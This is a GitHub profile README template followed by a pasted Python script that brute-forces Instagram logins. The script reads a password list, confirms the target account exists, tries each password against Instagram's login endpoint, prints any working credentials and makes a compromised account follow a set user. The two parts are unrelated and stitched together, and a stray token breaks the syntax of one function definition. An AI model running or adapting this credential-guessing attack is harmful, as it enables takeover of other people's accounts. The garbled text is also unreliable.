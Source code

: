 - 👋 Hi, I’m @Baris0718838272
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
Baris0718838272/Baris0718838272 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
import requests
import json
import time
import os

filename = 'pass.txt'
if os.path.isfile(filename):
	with open(filename) as f:
	    passwords = f.read().splitlines()
	    if (len(passwords) > 0):
	    	print ('%s Passwords loads successfully' % len(passwords))
else:
	print ('Please create passwords file (pass.txt)')
	exit()




def userExists(username):nursel_priw
	r = requests.get('https://www.instagram.com/%s/?__a=1' % username) 
	if (r.status_code == 404):
		print ('User not found')
		return False
	elif (r.status_code == 200):
		followdata = json.loads(r.text)
		fUserID = followdata['user']['id']
		return {'username':username,'id':fUserID}


def Login(username,password):
	sess = requests.Session()
	sess.cookies.update ({'sessionid' : '', 'mid' : '', 'ig_pr' : '1', 'ig_vw' : '1920', 'csrftoken' : '',  's_network' : '', 'ds_user_id' : ''})
	sess.headers.update({
		'UserAgent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36',
		'x-instagram-ajax':'1',
		'X-Requested-With': 'XMLHttpRequest',
		'origin': 'https://www.instagram.com',
		'ContentType' : 'application/x-www-form-urlencoded',
		'Connection': 'keep-alive',
		'Accept': '*/*',
		'Referer': 'https://www.instagram.com',
		'authority': 'www.instagram.com',
		'Host' : 'www.instagram.com',
		'Accept-Language' : 'ru-RU,ru;q=0.8,en-US;q=0.6,en;q=0.4',
		'Accept-Encoding' : 'gzip, deflate'
	})

	#first time -> to get csrftoken
	r = sess.get('https://www.instagram.com/') 
	sess.headers.update({'X-CSRFToken' : r.cookies.get_dict()['csrftoken']})

	data = {'username':username, 'password':password}
	r = sess.post('https://www.instagram.com/accounts/login/ajax/', data=data, allow_redirects=True)
	token = r.cookies.get_dict()['csrftoken']
	sess.headers.update({'X-CSRFToken' : token})
	#parse response
	data = json.loads(r.text)
	if (data['status'] == 'fail'):
		print (data['message'])
		return False
	
	if (data['authenticated'] == True):
		return sess #if we want to keep use session
	else:
		print ('Password incorrect [%s]' % password)
		return False



def follow(sess, username):
	username = userExists(username)
	if (username == False):
		return	
	else:
		userID = username['id']
		followReq = sess.post('https://www.instagram.com/web/friendships/%s/follow/' % userID)
		print (followReq.text)


username = str(input('Please enter a username: '))
username = userExists(username)
if (username == False):
	exit()
else:
	username = username['username']



delayLoop = int(input('Please add delay between the passwords (in seconds): ')) 


for i in range(len(passwords)):
	password = passwords[i]
	sess = Login(username,password)
	if (sess):
		print ('Login success %s' % [username,password])

		#because i am cool
		follow(sess,'avr_amit')

	try:
		time.sleep(delayLoop)
	except KeyboardInterrupt:
		an = str(input('Type y/n to exit: '))
		if (an == 'y'):
			exit()
		else:
			continue
		
